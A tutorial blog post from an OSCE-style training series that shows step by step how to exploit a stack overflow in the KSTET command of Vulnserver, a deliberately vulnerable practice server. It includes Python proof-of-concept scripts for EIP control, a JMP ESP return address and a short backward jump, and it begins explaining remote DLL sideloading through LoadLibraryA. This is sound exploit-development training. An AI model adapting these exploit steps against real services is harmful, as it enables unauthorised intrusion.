:slug: vulnserver-kstet-alternative/
:date: 2020-07-02
:category: attacks
:subtitle: Exploiting in stages
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Philipp Katzenberger on Unsplash
:description: This post will show how to exploit the Vulnserver KSTET command loading the payload from an external source.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iIJrUoeRoCQ

= KSTET: Sideloading exploiting

This is an alternate take of the article of exploiting the
link:../vulnserver-kstet/[KSTET] command  of `Vulnserver`, a VbD
(Vulnerable-by-Design) application in which you can practice Windows
exploit development.

The `KSTET` exploitation is really interesting because after controlling
the instruction pointer `EIP`, we are left with little space to work on.

With that kind of restrictions, we must be very creative in order to achieve
a working exploit that triggers something complex like a reverse shell.
For example, in the exploitation of the `GTER`,
command, we have space restrictions too and we used an
link:../vulnserver-gter/[Egghunter] and
link:../vulnserver-gter-no-egghunter/[reused part of the WinSock stack]
to create a custom reverse shellcode.

In the `KSTET` command article, we used a technique called
link:../vulnserver-kstet/[socket reusing].

In this post we will squeeze our space restriction a little more and use a
different exploitation technique.

I will shamelessly leave part of the article for the `KSTET` exploitation
and only divert it when needed.

`KSTET` take 2!

== Fingerprinting KSTET

Enumerating and fingerprinting is the most important step when verifying
the security of any target.

Let's check how the `KSTET` command behaves:

[source,console]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
KSTET hello
KSTET SUCCESSFUL
----

Well, easy enough. Now we are going to do the same but we will check it
under our debugger. I will use Immunity Debugger.

The first step is to identify where the `KSTET` command is processed.

We can do that by right clicking,
then `Search for -> All referenced text strings`, right click again, then
`Search for text` and type `KSTET`. Make sure that `Entire scope` is selected.
Now, select the match on where `KSTET` string is presented and set a
breakpoint:



With that in place, we can start again our connection to `Vulnserver` and
see what happens under the hood:



As you can see, several things are happening:

. Our breakpoint was reached when we typed `KSTET hello`.
. Several external functions are called, including `strncpy`, `malloc`,
`memset`.
. But there is one that stands out: `strcpy`, which will copy anything that
is on one buffer to another, without checking buffer boundaries.

Let's see what happens when we issue something larger than a `hello` to the
`KSTET` command:



Uggh! With a very short string, Vulnserver crashed and we overwrote `EIP`,
which means that we can control the execution flow of the application.

With that, we can start creating our proof-of-concept exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 200
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:



That's good news. However, the injected string was really short and maybe
we'd have a narrow buffer space to work on.

== Checking available buffer space

If we check the state of the application after the crash, we will see this:



In the dump window (bottom left), we see our injected buffer. In the PoC,
we sent 200 `A` chars but as you can see here, the total amount of injected
bytes, including the word `KSTET` itself is only 0x63 or 99 bytes.

In the exploitation of `GTER` command, we had 140+ bytes to work on and we
used two techniques:
link:../vulnserver-gter-no-egghunter/[WinSocket stack reusing] and
an link:../vulnserver-gter/[egghunter].

The first one is not viable because altough we reduced the shellcode length to
the half, the resultant shellcode was 128 bytes.

We could use an `egghunter` here but that wouldn't be much fun. Why make it
easy if we can do it the hard way?

OK, let's start by checking the offset of the crash, by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from Metasploit:

[source,console]
----
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
----

And update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:



As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where `EIP`
gets overwritten:

[source,console]
----
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
----

Now, check that offset by updating our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And run it:



Wonderful! We know exactly how to overwrite `EIP` to get control over the
execution flow.

== Exploiting

As with the link:../vulnserver-trun/[TRUN] and link:../vulnserver-gter/[GTER]
commands, we have a direct `EIP` overwrite here and the `ESP` register
points directly to our controlled buffer. That means that we can look for
a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

[source,console]
----
!mona jmp -r esp -cp nonull -o
----

This would tell `mona` to look for instructions that can be used to jump to
`ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp nonull`) and
exlude OS DLLs (`-o`). The result is this:



We can choose any of those 9 pointers. I'll choose the one at `625011BB`.

Now, we can update the exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:



Great! However, as you can see, we landed to a 20 bytes buffer where we
put the `C` chars but we have 66 bytes above on the buffer of the `A` chars.

With a short jump backwards we can easily jump to that place:



The resultant bytes were `EB B5`. We can update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:



But again, we were brutally reminded that we have a narrow buffer space
to work on.

To workaround that constrain, we will use this time a sideloading technique
for injecting the needed payload from an adjacent computer.

== Dynamic linking

Commonly, when creating an exploit, you inject the required payload and
modify the instruction pointer `EIP` to point to your code. Then, the
victim application will execute the code you injected that can be a simple
`MessageBox` or anything complex like a `TCP` shell.

That payload, or shellcode, can only use calls to the OS API that the
victim application has already loaded in memory. The OS API is distributed on
reusable files that can be linked to any application. In Windows
they are known as *Dynamic-Link Library* or `DLL`.
Commonly, an application will load executable dependencies at run-time using
the OS dynamic linker.

We can see the `DLL` files loaded using several ways. On Vulnserver,
we will use our debugger again:



That means that Vulnserver can execute any function included on any of those
modules.

However, there is a way for an application to include new libraries when it's
already running: *Dynamic Linking*. On Windows, it can be done with any of the
*LibraryLoad* functions family. Those functions are located on `KERNEL32.DLL`,
which is a module that virtually any Windows application loads at run-time.

With that simplified introduction to dynamic linking, it's time to write
some Assembler!

== Dynamic-included payload

The first thing to do is locate the address of `LoadLibraryA` on our system.
We can do that using the
link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

[source,console]
----
C:\Users\Fluid\Downloads\osce\tools>arwin.exe kernel32 LoadLibraryA
arwin - win32 address resolution program - by steve hanna - v.01
LoadLibraryA is located at 0x76460b30 in kernel32
----

*NOTE:* I'm using `Windows 10 20H2` at the moment of this writing. The
function addresses will likely change on different OS versions.

We also need to know the `LoadLibraryA` parameters:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
[source,cpp]
----
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
----

